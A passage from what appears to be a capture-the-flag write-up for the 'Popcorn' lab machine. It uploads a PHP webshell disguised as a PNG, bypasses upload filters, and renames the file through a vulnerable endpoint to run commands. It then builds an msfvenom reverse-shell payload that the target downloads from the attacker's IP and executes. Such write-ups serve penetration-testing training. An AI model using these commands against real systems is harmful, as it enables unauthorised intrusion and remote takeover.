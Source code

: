 Try uploading the `bubba.php` webshell as `bubba.png`. Now the page shows the following broken image link:

- If the upload fails, try catching the request in BurpSuite and modifying MIME header or add PNG magic bytes to the data to bypass backend filters.

![web12](./popcorn/web12.png)

Hovering over the link shows the following:

```
http://10.10.10.6/torrent/thumbnail.php?gd=2&src=./upload/908a2faca881266935b31058232c4fa5a191b92d.png&maxw=96
```

Maybe this is the file to try and rename? Try and make the PNG file into a PHP file:

- The `/var/www/torrent/` is guessed from the error output from `/var/www/rename/index.php`

```bash
curl -s -G --data 'filename=/var/www/torrent/upload/908a2faca881266935b31058232c4fa5a191b92d.png&newfilename=/var/www/torrent/upload/bubba.php' http://10.10.10.6/rename/index.php
```

And this does not return an error! Try to execute code:

```bash
curl -s -G --data 'c=id' http://10.10.10.6/torrent/upload/bubba.php
```

![user1](./popcorn/user1.png)

Nice! Use this to get a dedicated reverse shell:

```bash
# generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
# start listener
rlwrap nc -nvlp 6969
# host payload
sudo python3 -m http.server 80
# get target downloader installed
curl -s -G --data-urlencode 'c=(which wget || which curl)' http://10.10.10.6/torrent/upload/bubba.php
# send request to download and execute
curl -s -G --data-urlencode 'c=wget -O /tmp/bubba.elf http://10.10.14.27/bubba.elf && chmod +x /tmp/bubba.elf && /tmp/bubba.elf' http://10.10.10.6/torrent/upload/bubba.php
```
